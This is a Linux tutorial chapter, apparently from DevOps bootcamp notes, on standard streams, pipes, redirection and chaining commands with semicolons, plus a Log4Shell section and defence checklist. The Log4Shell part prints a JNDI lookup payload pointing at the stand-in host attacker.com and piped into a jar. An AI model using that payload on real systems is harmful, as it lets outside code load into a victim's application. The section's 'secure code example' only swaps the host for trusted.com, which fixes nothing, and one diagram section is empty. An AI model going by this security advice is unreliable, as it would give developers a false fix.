

## Introduction to Command Chaining and Redirection in Linux

In the realm of DevOps and system administration, mastering the art of chaining commands and utilizing input/output redirection is essential. These techniques allow you to combine multiple command executions into a single, powerful pipeline. This chapter delves deep into the concepts of piping and redirecting in Linux, providing a comprehensive understanding of how these mechanisms work, their practical applications, and how to secure your command pipelines against potential vulnerabilities.

### Standard Streams in Linux

Before diving into the specifics of chaining commands and redirection, it’s crucial to understand the standard streams in Linux:

- **Standard Input (STDIN)**: This is the default input stream for a process. Typically, it reads from the keyboard or a file.
- **Standard Output (STDOUT)**: This is the default output stream for a process. By default, it writes to the terminal.
- **Standard Error (STDERR)**: This stream is used for error messages and diagnostics. It also defaults to the terminal but is separate from STDOUT.

These streams are represented by file descriptors:
- `0` for STDIN
- `1` for STDOUT
- `2` for STDERR

### Piping and Redirecting Concepts

Piping and redirecting are fundamental operations in Linux that allow you to manipulate data flow between processes. Here’s a detailed breakdown of these concepts:

#### Piping

Piping (`|`) allows you to take the output of one command and use it as the input for another command. This creates a chain of commands where the output of each command becomes the input for the next.

**Example:**
```bash
ls | grep "file"
```
In this example, `ls` lists all files in the current directory, and `grep "file"` filters the output to show only lines containing the string "file".

#### Redirecting

Redirecting allows you to control where the input and output of a command go. There are several types of redirection:

- **Input Redirection (`<`)**: Redirects the contents of a file to a command’s STDIN.
- **Output Redirection (`>`)**: Redirects the output of a command to a file.
- **Appending Redirection (`>>`)**: Appends the output of a command to a file.
- **Error Redirection (`2>`)**: Redirects error messages to a file.
- **Combining Output and Error (`&>`)**: Redirects both STDOUT and STDERR to a file.

**Example:**
```bash
cat < input.txt > output.txt
```
Here, `input.txt` is read into `cat`, and the output is written to `output.txt`.

### Combining Multiple Commands

Chaining commands together using pipes and redirects can create powerful and efficient workflows. Let’s explore some practical examples:

#### Example 1: Filtering and Counting Lines

Suppose you want to list all files in a directory, filter those that contain the string "log", and count the number of such files.

```bash
ls | grep "log" | wc -l
```

- `ls`: Lists all files in the current directory.
- `grep "log"`: Filters the output to show only lines containing "log".
- `wc -l`: Counts the number of lines in the filtered output.

#### Example 2: Searching and Sorting

You might want to search for specific entries in a log file and sort the results alphabetically.

```bash
grep "error" log.txt | sort
```

- `grep "error" log.txt`: Searches for lines containing "error" in `log.txt`.
- `sort`: Sorts the output alphabetically.

### Handling Errors

When a command encounters an error, it typically outputs an error message to STDERR. Understanding how to handle these errors is crucial for robust command pipelines.

#### Example: Handling Errors

Consider a scenario where you want to copy a file that may not exist and redirect the error message to a file.

```bash
cp non_existent_file.txt /tmp/error.log 2> error_output.txt
```

- `cp non_existent_file.txt /tmp/error.log`: Attempts to copy a non-existent file.
- `2> error_output.txt`: Redirects any error messages to `error_output.txt`.

### Executing Commands Independently

Sometimes, you might want to execute multiple commands independently on the same line. This can be achieved using semicolons (`;`).

#### Example: Clearing the Screen and Listing Files

```bash
clear; ls
```

- `clear`: Clears the terminal screen.
- `ls`: Lists all files in the current directory.

### Real-World Examples and Recent CVEs

Understanding how these concepts apply in real-world scenarios and recent vulnerabilities can provide valuable insights.

#### CVE-2021-44228: Log4Shell

The Log4Shell vulnerability (CVE-2021-44228) is a critical security flaw in the Apache Log4j library. Attackers could exploit this vulnerability by injecting malicious log messages, which could then be executed as commands.

**Example:**
```bash
echo "${jndi:ldap://attacker.com/a}" | java -jar vulnerable.jar
```

- `echo "${jndi:ldap://attacker.com/a}"`: Injects a malicious log message.
- `java -jar vulnerable.jar`: Executes the Java application, which logs the injected message.

To mitigate such attacks, ensure that your logging configurations are secure and that you update to the latest versions of libraries.

### How to Prevent and Defend

#### Secure Coding Practices

1. **Validate Inputs**: Always validate and sanitize inputs to prevent injection attacks.
2. **Use Secure Libraries**: Keep your dependencies up-to-date and use libraries that are known to be secure.
3. **Least Privilege Principle**: Run commands and processes with the least privilege necessary.

#### Secure Configuration

1. **Limit File Permissions**: Ensure that files and directories have appropriate permissions to prevent unauthorized access.
2. **Use SELinux/AppArmor**: Implement mandatory access controls to restrict the actions of processes.

#### Detection and Monitoring

1. **Log Analysis**: Regularly monitor and analyze logs for suspicious activities.
2. **IDS/IPS**: Deploy Intrusion Detection Systems (IDS) and Intrusion Prevention Systems (IPS) to detect and prevent malicious activities.

### Complete Code Examples

#### Vulnerable Code Example

```bash
# Vulnerable code example
echo "${jndi:ldap://attacker.com/a}" | java -jar vulnerable.jar
```

#### Secure Code Example

```bash
# Secure code example
echo "${jndi:ldap://trusted.com/a}" | java -jar secure.jar
```

### Mermaid Diagrams

#### Command Pipeline Diagram

```mermaid
graph TD
    A[ls] --> B[grep "log"]
    B --> C[wc -l]
```

#### Error Handling Diagram



### Practice Labs

For hands-on practice, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive labs to practice web security concepts.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is riddled with vulnerabilities for educational purposes.

By mastering the art of chaining commands and utilizing input/output redirection, you can significantly enhance your efficiency and security in DevOps and system administration tasks.

---
<!-- nav -->
[[01-Introduction to Command Chaining and InputOutput Redirection|Introduction to Command Chaining and InputOutput Redirection]] | [[DevOps/DevOps Bootcamp/11-Miscellaneous/03-Chaining Commands with Input Output Redirection/00-Overview|Overview]] | [[03-Introduction to Command Chaining and Redirection|Introduction to Command Chaining and Redirection]]
